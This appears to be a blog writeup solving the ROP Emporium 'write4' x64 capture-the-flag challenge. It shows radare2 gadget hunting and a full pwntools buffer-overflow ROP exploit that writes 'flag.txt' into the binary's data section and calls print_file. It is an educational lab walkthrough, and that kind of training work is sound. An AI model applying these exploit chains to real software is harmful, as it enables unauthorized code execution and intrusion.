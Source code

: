 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x64)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium write4
tags: rop-emporium write4 x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x64-useful-gadgets.png)

The `mov` instruction will set the value from
`r15` (8 byte qword) into the dereferenced address 
set in `r14`. This is what we'll use to write to memory!
The gadget address is `0x00400628`

### Mov Arguments
> Find a gadget to control `r14` and `r15` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `r14` and
`r15` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop r14
```

![mov args gadget](/images/write4/x64-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop rbp` instruction entirely! The address
we'll use to set `r14` and `r15` is `0x0x00400690`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `r15`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x64-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x00601028`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> sets the `rdi` register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x64-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x00400510`

Now we need to set the first argument to this function.
According to the
[x64 calling convention](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"},
the first argument of a function is passed through the `rdi`
register. Let's find a gadget to control it

```
/R pop rdi
```

![rdi-addr](/images/write4/x64-rdi-addr.png)

Perfect! Our gadget address is `0x00400693`

## Exploit
We finally have everything to build the final exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028
print_file_addr = 0x00400510
pop_rdi = 0x00400693

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload

# create payload
payload = b'A' * 40

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(print_file_addr)

# send payload + receive flag
io = process('./write4')
io.recvline()
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x64-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

[write4 x86]({% post_url 2024-06-04-rop-emporium-write4-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
